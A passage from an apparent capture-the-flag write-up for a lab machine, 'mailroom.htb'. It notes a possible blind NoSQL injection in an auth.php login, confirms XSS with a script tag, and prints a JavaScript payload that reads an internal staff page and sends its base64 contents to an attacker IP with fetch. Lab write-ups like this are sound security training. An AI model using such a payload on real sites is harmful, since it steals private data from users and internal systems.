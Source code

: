 We might need to use these somehow. Also, the script seems to be vulnerable to blind NoSQL injection based on the error messages it sends. Based on the `auth.php` script, if get a `true` condition, we would get the `Check inbox for 2FA token` message. If not, we would get the `Invalid email or password` error.&#x20;

### XSS + CSRF

When we submit any queries, this is the response that we get:

<figure><img src="../../.gitbook/assets/image (3691).png" alt=""><figcaption></figcaption></figure>

If we enter a simple `<script>` tag and view the page, we can confirm that we have XSS.

<figure><img src="../../.gitbook/assets/image (1912).png" alt=""><figcaption></figcaption></figure>

This tells me that Javascript is being executed on the page, and we can attempt to steal page contents via CSRF.

I tried using some Javascript to load the `index.php` page from the staffroom repo to exploit it.

```javascript
<script>var url = "http://staff-review-panel.mailroom.htb/index.php";
var attacker = "http://10.10.16.31/out";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);</script>
```
